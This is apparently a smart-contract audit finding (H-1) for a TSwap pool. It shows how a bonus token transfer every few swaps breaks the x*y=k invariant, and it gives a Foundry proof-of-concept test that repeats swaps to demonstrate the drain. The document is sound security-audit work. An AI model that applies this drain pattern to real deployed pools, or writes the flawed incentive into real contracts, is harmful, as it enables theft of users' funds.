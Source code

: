 
### [H-1] In `TSwapPool::_swap` the extra tokens given to users after every `swapCount` breaks the protocol invariant of `x * y = k`

**Description:** The protocol follows a strict invariant of `x * y = k`. Where:

`x`: The balance of the pool token

`y`: The balance of WETH

`k`: The constant product of the two balances

This means, that whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the `k`. However, this is broken due to the extra incentive in the `_swap` function. Meaning that over time the protocol funds will be drained.

The follow block of code is responsible for the issue.

```javascript
        swap_count++;
        if (swap_count >= SWAP_COUNT_MAX) {
            swap_count = 0;
            outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
        }
```

**Impact:** A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

Most simply put, the protocol's core invariant is broken.

**Proof Of Code** 
Place the following into `TSwapPool.t.sol`.

```javascript
    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();

        uint256 endingY = weth.balanceOf(address(pool));
        int256 actualDeltaY = int256(endingY) - int256(startingY);
        assertEq(actualDeltaY, expectedDeltaY);
    }
```